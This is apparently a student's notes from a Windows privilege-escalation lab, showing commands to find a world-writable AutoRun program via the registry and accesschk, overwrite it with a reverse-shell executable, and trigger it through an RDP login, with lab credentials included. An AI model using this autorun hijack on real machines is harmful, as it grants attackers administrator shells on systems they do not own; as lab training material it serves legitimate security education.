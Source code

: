 Query the registry for AutoRun executables:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

![[Pasted image 20240527224755.png]]


Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![[Pasted image 20240527224826.png]]


Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

![[Pasted image 20240527224901.png]]


Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  

![[Pasted image 20240527225239.png]]


```
rdesktop 10.10.142.23
```

Answer the questions below

Read and follow along with the above.